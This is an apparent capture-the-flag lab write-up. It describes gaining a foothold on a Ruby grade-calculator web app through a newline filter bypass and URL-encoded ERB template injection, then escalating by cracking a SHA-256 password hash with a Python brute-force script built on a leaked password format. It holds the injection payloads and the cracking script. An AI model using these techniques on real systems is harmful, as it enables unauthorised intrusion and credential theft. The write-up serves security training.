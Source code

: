 

# Foothold 

we see their is only ssh and the web. 

in the web we see the calculator for the Grade Calculator

![[Pasted image 20240303175253.png]]

after testing we see we might get some kind of os command injection

![[Pasted image 20240303175336.png]]


looking into `WEBrick` a little bit it might be ruby or some kind but not sure. we try some filter bypass and found `%0a` will kinda break it and we are able to use more characters to get a working payload 

![[Pasted image 20240303180142.png]]

to make a payload we find its a `SSTI` and use a payload for that.

after looking we found this payload 

```
<%= 7*7 %>
```

this one is just to test `SSTI`

but i dont work

![[Pasted image 20240303180520.png]]

we might need to encode some stuff.

we encode the start and the end of the payload

after encoding

```
<%25= 7*7 %25>
```


![[Pasted image 20240303180629.png]]

and we got 49 meaning it works. now we can use `system` to execute commands

we make a payoad to download and execute a bash script to get shell

![[Pasted image 20240303180800.png]]


and we have shell


![[Pasted image 20240303180830.png]]


# Privesc


after enumerating the box we a message from the mail

```
cat /var/mail/susan

Due to our transition to Jupiter Grades because of the PupilPath data breach, I thought we should also migrate our credentials ('our' including the other students

in our class) to the new platform. I also suggest a new password specification, to make things easier for everyone. The password format is:

{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

Note that all letters of the first name should be convered into lowercase.

Please hit me with updates on the migration when you can. I am currently registering our university with the platform.

- Tina, your delightful student
```

ah so our password will be `susan_nasus<random number>`

inside our users home folder we see the folder `Migration` that as a file called `pupilpath_credentials.db`

after downloading it we see its the hashes for the users

![[Pasted image 20240303181123.png]]

so now we have a hash of the user susan. we now get a script that will crack this hash since we know what the password will look like

script: 

```
import hashlib

def generate_password(firstname):
    firstname_lower = firstname.lower()
    firstname_backwards = firstname_lower[::-1]
    for i in range(1, 1000000001):
        password = f"{firstname_lower}_{firstname_backwards}_{i}"
        hashed_password = hashlib.sha256(password.encode()).hexdigest()
        yield password, hashed_password

def crack_hash(hash_to_crack, firstname):
    for password, hashed_password in generate_password(firstname):
        if hashed_password == hash_to_crack:
            return password
    return None

# Hash provided by the user
hash_to_crack = "abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f"

# Firstname of the user
firstname = "Susan"

# Attempt to crack the hash
cracked_password = crack_hash(hash_to_crack, firstname)

if cracked_password:
    print(f"Hash cracked! Password is: {cracked_password}")
else:
    print("Unable to crack the hash.")

```

after a while we see the hash was cracked

![[Pasted image 20240303181749.png]]


we now use that password and login as root

![[Pasted image 20240303181448.png]]

